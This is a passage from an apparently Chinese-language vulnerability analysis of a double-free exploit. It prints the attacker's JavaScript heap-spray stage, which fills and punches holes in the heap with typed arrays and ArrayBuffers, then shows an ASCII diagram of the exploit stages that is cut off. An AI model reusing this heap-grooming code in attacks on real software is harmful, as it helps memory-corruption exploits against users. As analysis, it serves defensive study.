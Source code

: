 ### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

在触发漏洞之前，攻击者使用以下JavaScript：

```
var a         = new Array(0x3000);
var spraynum  = 0x1000;
var sprayarr  = new Array(spraynum);
var spraylen  = 0x10000-24;

// force allocations to get a clean heap
for(var i = 1; i &lt; 0x3000; i++)`{`
    a[i] = new Uint32Array(252);
`}`

// alloc to reclaim the freed buffer
for(var i = 1; i &lt; spraynum; i++)`{`
    sprayarr[i] = new ArrayBuffer(spraylen);
`}`

// make holes
for(var i = 1; i &lt; 0x3000; i = i+2)`{`
    delete a[i1];
    a[i1] = null;
`}`
```

基本上，这段代码正在进行的是第一阶段（Stage 1）：

```
Stage 1 - Prepare Heap                    Stage 2 - Double Free                     Stage 3 - Reclaim Freed
+------------------------+                +------------------------+                +------------------------+
|                        |                |                        |                |                        |
|    Bin size: 0x508     |                |    Bin size: 0x508     |                |    Bin size: 0x508     |
|                        |                |                        |                |                        |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|    |              |    |                |    |              |    |                |    |              |    |
|    |  Freed       |    |                |    |  Freed       |    |                |    |  Freed       |    |
|    |              |    |                |    |              |    |                |    |              |    |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|    |              |    |                |    |              |    |                |    |              |    |
|    |  Allocated   |    |                |    |  Allocated   |    |                |    |  Allocated   |    |
|    |              |    |                |    |              |    |                |    |              |    |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|    |              |    |                |    |              |    |                |    |              |    |
```